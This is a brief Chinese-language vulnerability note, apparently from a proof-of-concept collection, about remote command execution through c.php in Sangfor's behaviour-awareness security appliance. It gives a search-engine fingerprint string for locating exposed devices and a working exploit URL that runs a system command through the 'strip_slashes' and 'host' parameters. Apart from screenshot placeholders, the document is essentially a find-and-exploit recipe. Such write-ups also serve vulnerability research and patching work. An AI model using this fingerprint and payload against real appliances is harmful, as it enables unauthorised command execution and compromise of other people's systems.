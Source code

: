 # 

# 深信服 行为感知系统 c.php 远程命令执行漏洞

## 漏洞描述

深信服 行为感知系统  c.php  远程命令执行漏洞，使用与EDR相同模板和部分文件导致命令执行

## 漏洞影响

```
深信服 行为感知系统
```

## 网络测绘

```
body="isHighPerformance : !!SFIsHighPerformance,"
```

## 漏洞复现

登录页面如下



![](./images/202202091914752.png)



访问漏洞Url



```plain
/tool/log/c.php?strip_slashes=system&host=ipconfig
```



![](./images/202202091914059.png)

